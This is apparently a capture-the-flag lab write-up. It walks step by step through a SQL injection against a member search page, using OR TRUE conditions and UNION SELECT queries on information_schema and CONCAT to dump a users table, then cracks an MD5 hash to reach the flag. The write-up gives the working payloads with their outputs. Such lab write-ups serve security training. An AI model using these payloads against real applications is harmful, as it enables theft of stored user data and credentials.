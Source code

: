 # Sql injection on members table

## How we found the breach

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

### Legit search

First of all trying searching for a userID of `1` results:

Input:

```sql
1
```

Output:

```txt
ID: 1
First name: one
Surname : me
```

We can see that the server returns two user fields.

### Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:

```sql
SELECT * FROM users
```

Output:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server show us the raw MariaDB error, we see that our query has been added to a prebuilt one.
The prebuild query should look like something:

```sql
SELECT first_name, surname FROM users WHERE users.id = ${id} 
```

### Condition injection

To be able to retrieve to whole users table entry we need to create a SQL query that has a WHERE clause always evaluating to `TRUE`. We achieve this result by adding a `OR TRUE` condition.

Input:

```sql
1 OR TRUE
```

Resulting on the server as:

```sql
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE
```

Output:

```
ID: 1 OR TRUE 
First name: one
Surname : me

ID: 1 OR TRUE 
First name: two
Surname : me

ID: 1 OR TRUE 
First name: three
Surname : me

ID: 1 OR TRUE 
First name: Flag
Surname : GetThe
```

There are four users in the users table. The last one looks quite suspicious.

### UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As a first SQL query is build using our input. By using the UNION SELECT attack we could build a new query over the first one.

We want to discard all results of the first SELECT and only keep those of our own SELECT. For that we make sure the WHERE clause of the first SELECT always evalutes to `FALSE`.

Input:

```sql
-1 UNION SELECT * FROM users
```

As a serial integer is never negative, no user can have an id that is `-1`.

Output:
```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more than the initial sql query, that returned 2 columns, due to selecting all fields with `*`.

### Finding all tables columns name

Our goal is to retrieve all the `users` table columns names to be able to gather them using the `UNION SELECT` injection.
To do so we will be using the default database `information_schema.columns` information.

Input:

```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:

```
<!-- OTHER DATABASE INFORMATION -->

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

### Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve all the users entry columns value within on column, as the initial query returns only 2 columns.

Input:

```sql
-1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users
```

Output:

```sql
ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

#### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` containted in the `countersign` users table column that leads to `FortyTwo`.

Hashing using sha256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to exploit the breach

[See explanation on the document for the other SQL injection breach](../../search_images_sql_injection/Ressources/Explanations.md)

## How to avoid the breach

[See explanation on the document for the other SQL injection breach](../../search_images_sql_injection/Ressources/Explanations.md)
